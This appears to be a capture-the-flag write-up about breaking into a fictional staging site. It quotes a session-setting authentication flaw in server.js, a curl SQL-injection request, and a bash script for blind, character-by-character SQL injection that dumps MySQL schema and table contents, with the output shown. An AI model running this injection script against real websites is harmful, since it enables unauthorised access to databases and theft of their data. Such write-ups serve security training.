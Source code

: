 There is an authentication flaw in the method (see server.js). By posting the same email a second time we will be authenticated.

```javascript
..
app.post('/postcontact', function(req, res, next){
    var rowlength = rows.length;
    if (rowlength >= "1"){
      session = req.session;
      session.uniqueID = email;
      req.flash('info', 'Email Already Exists');
      res.redirect("/contact");
    } else {
```

This way we get a valid session.uniqueID which can bypass the authentication. By further looking at the code it seems the details page allows SQL injection which can be triggered by supplying multiple comma separated values. This is quite tricky as the web page does not use a comma separated list so without the source code that SQLi most likely wouldn't be noticed.

```bash
┌──(ben㉿42c96d2)-[~/Work]
└─$ curl -L --cookie "_csrf=kocuNDU9QMlSalYi03IpcY4o;" --cookie "connect.sid=s%3Aa7wP3VhClIjx8eHUMQ4INyOilSc3NYgz.eNDqZCVlX7GNlBuI4F%2BZK3Sin%2F8koFzQoT4kR4mTw6k" "https://staging.jackfrosttower.com/detail/1000,1001%20OR%20id=%20(select%20count(*)%20from%20emails)" 2>/dev/null| grep ">Edit<" | cut -f 2 -d "\"" | cut -f 3 -d "/"
14
```

Abusing that SQLi with sqlmap does not bring any success as sqlmap has its problems with that comma separated list. I have written a script to make database enumeration in that case a lot easier.

```bash
┌──(ben㉿42c96d2)-[~/Work]
└─$ cat frosttest.sh               
#!/bin/bash
row=$4
table=$1
column=$2
where=$3
good1=110
good2=112
maxrow=$5
csrf="e5bcyuMyt8FIPF22ZJcFbft1rRObQRB2."
sid="s%3A0kBa0_sU0UezHTC3yjtJtDXB1OPe8aJS.qu0IwkV2Iy6TLeB2X2XRYml%2BY7tQZkH84sFr3ifKb50"
echo "Analyzing table $table and column $column..."
while [ $row -le $maxrow ]
do
    cont=1
    position=1
    echo -n "Row ID $row: "
    while [ $cont = 1 ]
    do
        cont=0
        #for i in a b c d e f g h i j k l m n o p q r s t u v w x y z 1 2 3 4 5 6 7 8 9 0
        ascii=32
        while [ $ascii -le 127 ]
        do 
            counter=`curl -L --cookie "_csrf=$csrf" --cookie "connect.sid=$sid" "https://staging.jackfrosttower.com/detail/$good1,$good2%20AND%20%22$ascii%22%20=%20(select%20(ascii(substring($column%20from%20$position%20for%201)))%20%20from%20$table$where%20limit%201%20OFFSET%20$row)" 2>/dev/null | grep ">Edit<" | cut -f 2 -d "\"" | wc -l`
            if [ "x $counter x" == "x 2 x" ]
            then
                #echo -n $ascii
                echo $ascii | awk '{printf("%c",$1)}'
                cont=1
                position=$(echo $position + 1 | bc)
            fi
            ascii=$(echo $ascii + 1 | bc)
        done
    done
    row=$(echo $row + 1 | bc)
    echo ""
done
```

Let's enumerate the database using the MySQL information schema tables.

```bash
┌──(ben㉿42c96d2)-[~/Work]
└─$ ./frosttest.sh information_schema.schemata schema_name "%20" 0 10                130 ⨯
Analyzing table information_schema.schemata and column schema_name...
Row ID 0: information_schema.
Row ID 1: encontact.
Row ID 2: .
```

```bash
┌──(ben㉿42c96d2)-[~/Work]
└─$ ./frosttest.sh information_schema.tables table_name "%20where%20table_schema%3d%22encontact%22" 0 100
Analyzing table information_schema.tables and column table_name...
Row ID 0: users
Row ID 1: todo
Row ID 2: emails
Row ID 3: uniquecontact
Row ID 4: 
```

```bash
┌──(ben㉿42c96d2)-[~/Work]
└─$ ./frosttest.sh information_schema.columns column_name "%20where%20table_schema%3d%22encontact%22%20and%20table_name%3d%22todo%22" 0 100
Analyzing table information_schema.columns and column column_name...
Row ID 0: id
Row ID 1: note
Row ID 2: completed
Row ID 3: 
```

```bash
┌──(ben㉿42c96d2)-[~/Work]
└─$ ./frosttest.sh todo note "%20" 0 10                               130 ⨯
Analyzing table todo and column note...
Row ID 0: Buy up land all around Santa's Castle
Row ID 1: Build bigger and more majestic tower next to Santa's
Row ID 2: Erode Santa's influence at the North Pole via FrostFest, the greatest Con in history
Row ID 3: Dishearten Santa's elves and encourage defection to our cause
Row ID 4: Steal Santa's sleigh technology and build a competing and way better Frosty present delivery vehicle
Row ID 5: Undermine Santa's ability to deliver presents on 12/24 through elf staff shortages, technology glitches, and assorted mayhem
Row ID 6: Force Santa to cancel Christmas
Row ID 7: SAVE THE DAY by delivering Frosty presents using merch from the Frost Tower Gift Shop to children world-wide... so the whole world sees that Frost saved the Holiday Season!!!! Bwahahahahaha!
Row ID 8: With Santa defeated, offer the old man a job as a clerk in the Frost Tower Gift Shop so we can keep an eye on him
Row ID 9: 
Row ID 10:  
```

